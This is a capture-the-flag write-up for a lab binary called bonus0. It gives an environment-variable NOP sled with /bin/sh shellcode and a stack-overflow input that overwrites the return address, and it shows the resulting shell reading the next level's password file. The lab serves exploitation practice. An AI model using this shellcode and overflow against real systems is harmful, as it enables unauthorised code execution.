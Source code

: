 Same as the last exercice, we will implement an environment variable `EXPLOIT`, we will create it with :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

The first `read` need 4095 bytes with an extra byte represented by `\n`.
We filled the second `read` with 9 bytes, we place `0xbffff804` which is our `EXPLOIT` variable and we finish to overflow with 15 bytes and one extra byte for `\n` :
```bash
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x04\xf8\xff\xbf' + 'A' * 15 + '\n'" ; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAA??? AAAAAAAAA???AAAAAAA???
whoami
bonus1
cd .. && cat bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

